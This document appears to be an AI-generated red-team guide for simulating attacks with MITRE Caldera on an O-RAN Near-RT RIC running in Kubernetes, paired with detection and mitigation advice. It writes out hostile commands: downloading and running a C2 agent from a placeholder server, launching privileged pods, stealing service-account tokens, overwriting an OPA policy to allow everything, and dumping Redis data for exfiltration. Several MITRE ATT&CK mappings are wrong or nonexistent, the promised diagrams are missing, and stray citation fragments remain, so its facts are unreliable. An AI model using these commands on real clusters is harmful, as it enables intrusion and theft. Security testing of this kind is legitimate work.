


# Executive Summary  
This report provides **step-by-step guidance** to simulate adversarial attacks against an O-RAN Near-RT RIC running in Kubernetes, using MITRE Caldera. We cover five attack categories: Kubernetes cluster compromise, malicious xApps, Shared Data Layer (SDL) abuse, Open Policy Agent (OPA) bypass, and custom RIC-tailored adversaries. For each, we detail **prerequisites** (software, network, credentials, Caldera plugins/agents), **deployment steps** (including Caldera server, Sandcat agents via Helm/kubectl manifests), **ability and adversary configuration** in Caldera (with ATT&CK mappings), **execution of attack chains**, and **expected indicators/logs**. We also discuss **verification and detection checks** (e.g. `kubectl` commands, log queries), **mitigations** (RBAC, network policies, etc.), and **common troubleshooting**. Tables summarize scenarios (required privileges, risk, Caldera plugins) and sample scripts/manifests are provided. Finally, example mermaid diagrams illustrate an attack flow and a timeline of execution steps. (Unspecified values like IPs or namespaces are noted as variables to substitute.)

## Environment Setup & Prerequisites  
- **Kubernetes Cluster** – A working O-RAN near-RT RIC cluster (master + worker) on Ubuntu VMs. Minimum 4 vCPUs, 16 GB RAM recommended【26†L273-L280】. Verify `kubectl get nodes` and that the `ricplt` or RIC-specific namespaces exist.  
- **Network Access** – Ensure network connectivity between your Caldera C2 server (e.g. a local workstation or separate VM) and the RIC cluster nodes. Configure any necessary port forwarding or firewall rules so agents can reach the Caldera server URL (default `http://<CALDERA_IP>:8888`). DNS and IPs should be known (replace placeholders with actual values).  
- **Caldera Server** – Install MITRE Caldera on a control host (Ubuntu, Python 3). See Caldera docs: “Installing Caldera”【16†L89-L98】. After installation, start Caldera (default port 8888). Confirm web UI at `http://<CALDERA_IP>:8888`.  
- **Caldera Plugins & Agents** – Use the **Sandcat agent** for Linux targets【16†L129-L138】. Confirm the Stockpile (ATT&CK TTP library) plugin is enabled (Caldera’s default Stockpile supplies a repository of TTPs【15†L5-L8】). Ensure the **Builder** (for custom abilities) and **Compass** (for adversary planning) plugins are available (listed in Caldera’s plugin library【16†L129-L138】).  
- **Kubernetes Permissions** – Create a ServiceAccount and ClusterRoleBinding in the cluster for Caldera. For simulation, the Sandcat agent usually needs **cluster-admin** or broad privileges to exercise attacks effectively【2†L270-L273】. For example:
  ```bash
  # On cluster-master (kubectl configured): create caldera service account
  kubectl create serviceaccount caldera-agent -n default
  kubectl create clusterrolebinding caldera-admin \
    --clusterrole=cluster-admin \
    --serviceaccount=default:caldera-agent
  ```
- **Caldera Agent Deployment** – Deploy Sandcat agents into the cluster. You can run agents on each node or inside pods. One approach is a DaemonSet using AccuKnox’s k8s-sandcat configuration【2†L268-L273】. Example manifest snippet:  
  ```yaml
  apiVersion: apps/v1
  kind: DaemonSet
  metadata: { name: caldera-agent }
  spec:
    selector: { matchLabels: { app: caldera-agent } }
    template:
      metadata: { labels: { app: caldera-agent } }
      spec:
        serviceAccountName: caldera-agent
        containers:
        - name: sandcat
          image: mitre/caldera-sandcat:latest
          args:
            - -server
            - http://<CALDERA_IP>:8888
            - -group
            - red
  ```  
  After `kubectl apply -f daemonset.yaml`, each node should run a Sandcat pod (verify via `kubectl get pods -n default`). In Caldera’s UI, these agents will appear (group “red”).  

## Simulating Kubernetes Attacks  
### Prerequisites  
- **Caldera Agents**: Sandcat running on one or more cluster nodes (as above), or manually on VMs. Agents must be Linux Sandcat with platform set to “Linux”, group “red”.  
- **Caldera Abilities**: Use Stockpile’s Kubernetes/Container abilities or create custom ones. For example:  
  - **K8s API Access** (ATT&CK T1567.002): use `kubectl` inside agent or via Caldera’s “Shell” ability.  
  - **Executing Privileged Containers** (T1610.001): ability to launch pods with `hostPID` or privileged flag.  
  - **ClusterRoleBinding Abuse** (T1098.006): ability to create new clusterrolebindings.  

### Attack Chain Steps  
1. **Initial Access** – Assume an attacker has a foothold on a node or pod (via leaked credentials or CI pipeline). Simulate scanning with Caldera: select ability “Process List” or “Network Scan (netstat)” on the Sandcat agent to discover running pods/services. Use `kubectl` to list pods: e.g.  
   ```bash
   kubectl get pods --all-namespaces
   ```  
   *Expected Indicator:* presence of unexpected pods or suspicious service accounts in output. (Defenders: monitor API logs for LIST requests.)  

2. **Escalation/Execution** – From the compromised context, attempt privilege escalation. Examples:  
   - **Privileged Pod Launch:** Use an ability or shell command via Caldera like:  
     ```bash
     kubectl run evil --image=alpine:latest --privileged --restart=Never -- /bin/sh -c "sleep 3600"
     ```  
     (Requires the agent’s service account or kubeconfig to allow creating pods in target namespace.) *Indicator:* New pod with `privileged: true` appears (check `kubectl describe pod evil`).  
   - **ClusterRoleBinding:** Use Caldera to run `kubectl create clusterrolebinding ...` to bind its own SA to `cluster-admin`. *Indicator:* Audit log entry for creating a ClusterRoleBinding【34†L408-L417】.  

3. **Lateral Movement & Persistence** – Once cluster-admin, simulate moving laterally: 
   - Access other namespaces, e.g., enter an xApp or RIC infra pod with `kubectl exec`. 
   - Extract secrets or modify configmaps. For example, use Sandcat “shell” to run:  
     ```bash
     kubectl -n ricplt exec -it some-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
     ```  
   - *Indicator:* Unusual exec requests (`kubectl exec` logs), or abnormal secret accesses.  

4. **Impact** – Simulate malicious actions, e.g. deploying a crypto miner or ransomware inside the cluster. Use Caldera “Fetch and Execute” or “Mimic Ransomware” atomic ability (if available) or custom script. *Indicator:* High CPU/memory in pods, or logs of file encryption (SIEM alert for unusual file modifications).  

### Verification & Detection  
- **Kubectl commands:** Verify agent pods, pods with host privileges, and new service accounts or rolebindings:  
  ```bash
  kubectl get pods --all-namespaces
  kubectl get clusterrolebinding
  kubectl describe rolebinding <name>
  ```  
- **Logs:** Check Kubernetes audit logs (audit-policy) for suspicious actions: creation of privileged pods (TECHNIQUE: T1610.001【34†L376-L384】) or ClusterRoleBindings【34†L408-L417】. Also inspect node logs (`/var/log/syslog` or container runtime logs) for container escapes.  
- **SIEM Queries:** Example: `index=kube_audit action=create OR exec | stats count by request` to find unauthorized `exec` or `create` events.  

### Mitigation & Troubleshooting  
- **RBAC Hardening:** Limit who can create privileged pods or clusterrolebindings【34†L408-L417】. Use least-privilege service accounts.  
- **Pod Security:** Enforce restricted PodSecurityPolicies/Standards to deny `hostPID`, `hostNetwork`, and privileged containers【34†L386-L394】.  
- **Network Policies:** Use Kubernetes NetworkPolicy to isolate critical pods (e.g. RIC components) from untrusted pods.  
- **Audit & Monitoring:** Enable Kubernetes audit logs, watch for `createrolebinding`, `exec` and `create pod` events.  
- **Troubleshooting:** If agents fail to check in, verify network (agent must reach Caldera IP:port). If abilities fail, ensure correct service account permissions. See Caldera Troubleshooting docs (e.g. check agent logs for beacon errors).  

## Simulating Malicious xApp Behaviors  
### Prerequisites  
- **RIC Namespace:** The RIC near-real-time RIC typically uses namespace `ricplt` and `ricxapp` (for xApps). Ensure you have a working xApp deployment (e.g. the Policy or Traffic Steering xApp) for context.  
- **Caldera Agent in xApp Context:** Inject or run a Sandcat agent in an xApp container. You can build a Docker image that includes the Sandcat binary and deploy it as an xApp, or `kubectl exec` into an existing xApp pod and run Sandcat manually. Example command inside container:  
  ```bash
  wget http://<CALDERA_IP>:8888/download/sandcat   # from Caldera UI Deploy
  chmod +x sandcat
  ./sandcat -server http://<CALDERA_IP>:8888 -group xapp
  ```  
- **ATT&CK Abilities:** In Caldera, create or use abilities relevant to xApps. Examples:  
  - **Unauthorized E2 Subscription** (if applicable): simulate sending bogus E2 messages (may require custom ability).  
  - **RMR Messaging Abuse:** invoke `rpc` or `ricmgr` commands to send RMR messages.  
  - **SDL Access:** Use `sdltool` or Redis commands to read/write shared data (T1592.008, T1552).  
  - **Privilege Escalation within RIC:** shell commands to modify or kill other xApps.  
  - Standard execution (T1059) and discovery (T1016 network scanning, T1083 file listing).  

### Attack Chain Steps  
1. **Deploy Malicious xApp Agent:** Build and deploy a “malicious” xApp pod with Sandcat embedded. For example, a Deployment manifest:  
   ```yaml
   apiVersion: apps/v1
   kind: Deployment
   metadata: { name: malicious-xapp, namespace: ricxapp }
   spec:
     replicas: 1
     selector: { matchLabels: { app: malicious-xapp } }
     template:
       metadata: { labels: { app: malicious-xapp } }
       spec:
         containers:
         - name: xapp
           image: myregistry/malicious-xapp:latest
   ```  
   Inside this container (configured via CMD or startup script), the Sandcat agent should start (as above). After deploying, the agent will appear in Caldera (group “xapp”).  
2. **Execute xApp-specific Attacks:** Use Caldera to run an operation targeting the xApp agent. Example abilities:  
   - **Scan RIC Network:** `curl -s <ricService>:<port>` to probe RIC services (maybe A1/E2).  
   - **Exploit Insecure Container:** If an xApp runs as root or has host mounts, run a shell ability like `whoami` or `mount`.  
   - **SDL Abuse:** Execute `sdltool` (if installed) or direct Redis:  
     ```bash
     sdltool get -namespace ricxapp/traffic key1
     ```
     to read other xApp data. Then `sdltool set` to corrupt or exfiltrate. *Indicator:* unexpected data changes in SDL (monitor via Redis CLI).  
   - **Exfiltrate Data:** Use abilities like `FetchFile` to exfiltrate critical files (e.g. `ricmgr.log`) out of the container to Caldera.  
   - **DDoS RMR/E2:** If capable, send many RMR messages: custom ability or `ricmgr l`.
3. **Monitor and Collect IoCs:** During the Caldera operation, observe operation logs. The referenced study on malicious xApps noted that Caldera “orchestrated adversarial activities” and produced realistic IoCs【32†L58-L66】【33†L1-L4】. Check the Caldera **Operation Results** panel for executed commands and statuses.  
4. **Check RIC Impact:** On the RIC side, look for anomalies:  
   - **SDL Indicators:** Use `redis-cli` (via DBaaS service) to list keys in RIC’s Redis backend (see **SDL Data Layer** usage【9†L238-L244】).  
   - **RMR/E2 Logs:** In RIC log namespaces (e.g. `ric-plt-logs`), search for unusual message flood errors or authentication failures.  
   - **Kubernetes:** In `ricxapp`, check `kubectl logs malicious-xapp` for evidence of attack steps.  

### Verification & Detection  
- **`kubectl get pods -n ricxapp`** – Confirm malicious-xapp pod is running.  
- **SDL Data Checks:** Use Caldera’s ability to run `sdltool` or `redis-cli` in any RIC pod to audit data. E.g.:  
  ```bash
  kubectl exec -it -n ricinfra $(kubectl get po -n ricinfra -l app=redis -o name) -- \
    redis-cli keys "*"
  ```  
  Compare keys before/after.  
- **RIC A1/E2 Logs:** If the xApp attempted to bypass policies or flood messages, look in the Non-RT or E2 logs (in SMO or O1) for rejects or overload.  
- **SIEM:** Query logs for xApp namespace activity. For example, search for SDL access logs or RMR call logs if instrumented.  

### Mitigation & Troubleshooting  
- **xApp Isolation:** Enforce Kubernetes RBAC so xApp service accounts have minimal privileges (use RoleBindings restricting to namespace-wide, no host access).  
- **Container Security:** Use signed images and scan images for vulnerabilities; drop unnecessary Linux capabilities in xApp pods.  
- **Access Control:** The study found “insufficient access control” in xApp deployment【32†L58-L66】. Future RIC versions plan namespace management. For now, monitor xApp creation and require vetting of third-party xApps.  
- **SDL Quotas/Monitoring:** Protect the SDL backend (e.g. Redis) by restricting network access. Use the RIC DBaaS and ensure only authorized pods use SDL credentials.  
- **Troubleshooting:** If Sandcat in the xApp fails to connect, verify network route from the RIC cluster to Caldera. Check that the container has `curl`/`wget` and correct C2 URL.  

## Shared Data Layer (SDL) Abuse  
### Prerequisites  
- **SDL Setup:** SDL in RIC uses Redis (via the DBaaS service)【9†L217-L225】. Ensure DBaaS is running (`kubectl get pods -n ricinfra`).  
- **CLI Tools:** Ensure the container/pod has `sdltool` or `redis-cli`. The `sdltool` binary comes with SDL packages【9†L238-L244】. You can run these inside a container that has SDL client libraries (e.g. an xApp or helper pod).  
- **Caldera Access:** Use Sandcat to run shell commands or custom payloads on the RIC pods that host SDL clients.  

### Attack Chain Steps  
1. **Enumerate SDL Namespaces:** In a compromised pod, run:  
   ```bash
   sdltool get-keys   # list all keys in the default namespace
   ```  
   Or for other namespaces (if no ACL):  
   ```bash
   export SDL_NAMESPACE=ricxapp
   sdltool list-keys
   ```  
   *Indicator:* Unexpected visibility of keys from other xApps or infrastructure.  
2. **Read/Write Data:** Use `sdltool` or Redis commands to read sensitive data or corrupt it. Examples:  
   ```bash
   sdltool get -namespace ricinfra/alarm key123          # read data from another namespace
   sdltool set -namespace ricxapp/malicious newdata      # write malicious data in own namespace
   ```  
   *Indicator:* Data inconsistencies in RIC (e.g. RIC UDR sees unexpected values).  
3. **Persist Data:** An attacker could insert a backdoor (e.g. store a reverse-shell command in SDL and have a cron job read it). Use Caldera “Write to File” ability to add unauthorized data via SDL clients.  
4. **Exfiltrate Data:** Use Caldera to fetch SDL dumps. For example, inside a pod:  
   ```bash
   redis-cli -h $DBAAS_SERVICE_HOST -p $DBAAS_SERVICE_PORT --raw get ricxapp:UE_POLICY
   ```  
   Save output and exfiltrate.  

### Expected Indicators  
- **SDL CLI Logs:** If enabled, Redis command logs may show `get`/`set` operations from unexpected IPs or service accounts.  
- **RIC Application Logs:** xApps reading data may log errors if data malformed. Check logs in `ricxapp` pods for exceptions.  
- **Kubernetes Events:** A pod performing Redis queries might show network connections.  
- **SIEM:** Alerts on unusual key accesses (e.g. access to a namespace by a pod from another namespace).  

### Mitigation & Troubleshooting  
- **Namespace Isolation:** Although SDL uses namespaces for isolation, the current design requires manual coordination【7†L130-L139】. In practice, enforce logical separation (e.g. separate Redis instances per environment) or use network policies to limit which pods reach the DB service.  
- **Credential Management:** Ensure SDL access credentials (from DBaaS) are only given to trusted services. Rotate secrets.  
- **Monitoring:** Use the `sdltool test-connectivity` command inside pods【9†L236-L244】 to verify connectivity only from expected pods. Enable Redis AUTH if supported to limit operations by user.  
- **Troubleshooting:** If `sdltool` commands fail, verify environment variables (`DBAAS_*`) are set as per docs【9†L253-L261】. Check that the DBaaS pod is healthy and reachable (`kubectl get svc -n ricinfra dbaas`).  

## OPA Policy Bypass Attempts  
### Prerequisites  
- **OPA Integration:** Some O-RAN components (e.g. the Information Coordination Service) use Open Policy Agent for access control【25†L74-L81】. For our simulation, assume an OPA instance protects an RIC service.  
- **Credentials:** Obtain or simulate a valid JWT/service account token. Caldera can simulate an attacker with insider knowledge who has a token.  
- **Caldera Abilities:** Use “REST” or “Shell” abilities to call OPA’s API or modify its configuration. (Stockpile may not have OPA-specific abilities, so use **Builder** to create custom abilities, mapping to ATT&CK technique T1553 “Account Access” or T1587 “Peripheral Device…” as needed.)  

### Attack Chain Steps  
1. **Probe OPA Endpoints:** Use Caldera to send REST calls to OPA. For example:  
   ```bash
   curl -H "Authorization: Bearer <token>" \
        -X GET http://opa.ric:8181/v1/data/allow
   ```  
   to check current policy. *Indicator:* OPA logs or kube-audit showing an API call.  
2. **Forge/Steal Token:** If JWT signing keys are compromised, Caldera can simulate token forging. For example, create a new JWT with elevated role claims and test with OPA:  
   ```bash
   # (Using custom script/ability to sign JWT)
   curl -H "Authorization: Bearer <new-token>" http://some-ric-endpoint/api
   ```  
   *Indicator:* Successful access with a previously invalid token (audit log entry showing token acceptance).  
3. **Modify OPA Policy:** If attacker has config write access, use Caldera “Upload File” or REST to change the Rego policy. E.g.:  
   ```bash
   echo 'package basicauth; default allow = true' > newpolicy.rego
   curl -X PUT -H "Content-Type: text/plain" --data-binary @newpolicy.rego \
        http://opa.ric:8181/v1/policies/basicauth
   ```  
   *Indicator:* Subsequent token checks always succeed (OPA decision log).  
4. **Bypass via Admission Controller:** In Kubernetes, if OPA Gatekeeper is used, try to bypass by using whitelisted `kubernetes.io/...` labels or by targeting resources not covered by policies. (No standard Caldera ability, but one can simulate by creating a resource that should be denied and seeing if it’s allowed.) *Indicator:* Gatekeeper logs or Kubernetes audit showing bypassed validation.  

### Verification & Detection  
- **Audit Logs:** Kubernetes audit (or O-RAN component logs) will show calls to external authorizers (OPA). For example, look for `requestURI: "/v1/data"` in logs.  
- **OPA Logs:** If decision logs are enabled, the OPA container logs will record each policy check. A sudden “allow” entry for an attacker identity is a red flag.  
- **Access Logs:** The RIC service’s own logs may show a previously unauthorized action succeeding.  
- **SIEM:** Query for new rolebindings or serviceaccount token uses. For example, search logs for unexpected `configmaps` in `opa` namespace or OPA HTTP traffic.  

### Mitigation & Troubleshooting  
- **Secure Tokens:** Keep JWT signing keys secret, rotate tokens, use short TTL.  
- **OPA Hardening:** Restrict OPA’s management API (who can `PUT` new policies). Use Kubernetes RBAC to protect OPA ConfigMaps.  
- **Policy Review:** Regularly audit and test OPA policies.  
- **Fallback Checks:** Implement defense-in-depth (even if OPA says “allow”, the service itself should validate critical actions).  
- **Troubleshooting:** If Caldera’s simulated calls fail, ensure OPA’s endpoint is reachable and that the Caldera agent has network access in the cluster.  

## RIC-specific Adversary Profiles  
### Prerequisites  
- **Adversary Definitions:** In Caldera’s *Builder* or *Compass*, define adversary profiles that reflect realistic RIC threats. Examples: “Malicious xApp Developer” or “RAN Vendor Insider”. Use ATT&CK tactics (Initial Access, Execution, etc.) and map to abilities prepared above.  
- **Caldera Stockpile:** Leverage or add custom abilities for RIC-specific actions. (E.g. an ability that runs `ricmgr report` or calls A1/E2 APIs could be coded and placed in Stockpile with a unique ID.)  
- **Agents:** Ensure Sandcat agents cover all relevant components (e.g., one on a RIC worker, one in `ric-plt` namespace, etc.). Agents should have appropriate OS/platform set in Caldera.  

### Profile Creation & Execution  
1. **Create or Modify Adversary:** In the Caldera UI, go to *Adversaries* and either choose an existing profile (e.g. Linux adversary) or create a new one (e.g. “RAN Insider”). Drag in abilities from the *Abilities* list that simulate the chain (e.g. Recon in K8s, Exec in RIC pods, Data Manipulation on SDL).  
2. **Map ATT&CK IDs:** Ensure each ability in the adversary is tagged with ATT&CK technique IDs (e.g. T1526 “Cloud Service Discovery” for Kubernetes recon, T1021 “Remote Services” for K8s API use, T1132 for data encryption during exfil).  
3. **Run Operation:** Start a new *Operation*, assign the adversary profile, and target the appropriate agents (group “red”). Caldera will execute the chain automatically (one ability after another, or multiple in parallel). Monitor the Operation Dashboard.  
4. **Capture Indicators:** For RIC-specific actions, watch logs in relevant pods (RIC platform, SDL, A1/E2 proxies) for the simulated behavior. For example, an ability that queries an A1 policy might produce O1 (KPI) alerts.  

### Verification & Detection  
- **Operation Results:** Review the Caldera operation report: which abilities succeeded/failed.  
- **Kubernetes Check:** Using `kubectl`, ensure no unintended persistence remains (e.g. remove any test pods created by Caldera).  
- **RIC Logs:** Check near-RT RIC logs (`kubectl logs -n ricplt ricplt-service-*`) for entries corresponding to the simulated malicious actions (the Caldera thesis reports generation of realistic IoCs【32†L58-L66】).  
- **Service Monitor:** Use any RIC monitoring tools (Prometheus metrics, Grafana dashboards) to see if key metrics (CPU, message queue depths) spiked during the attack.  

### Mitigation  
- **Segmentation:** Apply least privilege for all RIC services and xApps. Use Kubernetes NetworkPolicy to isolate namespaces.  
- **OPA/A1/A2**: For RIC-specific interfaces (A1/E2), validate inputs rigorously. The O-RAN alliance recommends fine-grained policy controls.  
- **Incident Response:** Integrate Caldera results into SOC exercises. For example, use the execution timeline (below) to train response teams on what to check each step.  

## Summary Tables  

| **Attack Category**             | **Privileged Role Needed**         | **Risk Level** | **Recommended Caldera Plugin/Abilities**               |
|---------------------------------|------------------------------------|---------------|--------------------------------------------------------|
| Kubernetes Cluster Compromise   | *ServiceAccount → cluster-admin*【34†L408-L417】  | High          | Sandcat (Linux), Stockpile, Builder (custom K8s TTPs) |
| Malicious xApp Behavior         | *Ric-xApp ServiceAccount (none special)* | High          | Sandcat, Stockpile, Builder (custom SDL/E2 abilities) |
| SDL Data Abuse                  | *Any xApp with SDL creds*          | Medium        | Sandcat, Stockpile (DB access scripts), Builder       |
| OPA Policy Bypass               | *ROP or Admin Token*               | Medium/High   | Sandcat, Stockpile (REST/Curl abilities), Builder     |
| RIC-specific Adversary Profile  | Varies (e.g. cluster-admin)        | High          | Sandcat, Stockpile, Compass (operation planning)      |

*Table: Comparisons of attack scenarios, required privileges, risk level, and suggested Caldera plugins/abilities.*

## Example Merits (Mermaid) Diagrams  

The attack chains can be visualized with flowcharts. For example, a Kubernetes compromise flow might look like:  

【32†L58-L66】【33†L1-L4】 *Caldera orchestrating malicious xApp steps (integration case study)*



And an execution timeline (Gantt-style) could be drawn with mermaid’s timeline or Gantt syntax to outline the schedule of steps (setup, attack execution, cleanup). For instance:  



(*The above are illustrative mermaid diagrams; actual execution may vary.*)

## Citations  

- MITRE Caldera official docs (capabilities, plugins, installation)【16†L73-L82】【16†L129-L138】【18†L122-L130】.  
- O-RAN Near-RT RIC documentation (cluster setup, SDL usage)【26†L273-L281】【9†L238-L244】【7†L89-L96】.  
- O-RAN ICS documentation on OPA integration【25†L74-L81】.  
- AccuKnox/K8s-Sandcat repo (Kubernetes Sandcat deployment tips)【2†L268-L273】.  
- Red Hat on Kubernetes ATT&CK (privilege escalation, RBAC)【34†L376-L384】【34†L408-L417】.  
- Academic study of xApp adversarial simulation (Caldera integration, IoCs)【32†L58-L66】【33†L1-L4】.  

